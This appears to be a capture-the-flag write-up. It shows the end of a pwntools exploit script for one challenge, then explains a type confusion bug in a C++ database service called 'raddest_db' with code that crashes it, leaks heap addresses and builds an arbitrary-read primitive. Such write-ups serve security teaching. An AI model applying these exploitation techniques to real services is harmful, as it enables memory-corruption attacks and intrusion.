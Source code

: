 ```python
  r.recvuntil("t\n")
  r.sendline("6")

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)
flag_ptr = 0x701e40
if __name__ == '__main__':
  c("AAAAAAAA" + p64(0x701e40),-1,-1)
  show(1)
  a(1,9223372036854775808)
  raw_input("@")
  check()

  r.interactive()
```
### raddest_db
The service allow us to create database and store/delete/get some key-value it in. It also has a "getter" feature which allow us to set and run a getter function while getting a key's value.  

The program is written is C++ and it's been heavily optimized, which make it pretty hard for us to reverse the binary. We ended up fuzzing the service manually and found a type confusion vulnerability:

```python
create("A") # create database "A"
store("A","string" , 2, "AAAAAAAAAAAAAAAAAAA")
store("A","int" , 2, -1)
print_db("A") # crash, invalid pointer 0xffffffffffffffff
```

The above payload will crash the program. After analyzing the crash, we found that the second value ( -1 ) will overwrite the string pointer of the first value. Later when it want to print out the value, it will treat `-1` as a char pointer, thus crashing the program.

With this vulnerability we can first leak the heap address, then create an arbitrary read primitive to leak libc's address:

```python
# leak heap
create("A") 
store("A","int" , 2, -1)
store("A","string" , 2, "AAAAAAAAAAAAAAAAAAA")
get("A",2) # print heap address as integer

# arbitrary read
store("A","string" , 1, "ZZZZZZZZZZZZZZZZZZZ")
# use float to control the address value
store("A","int" , 1, float_to_str(struct.unpack("<d",p64(address))[0]))) 
get("A",1) # leak arbitrary address
```
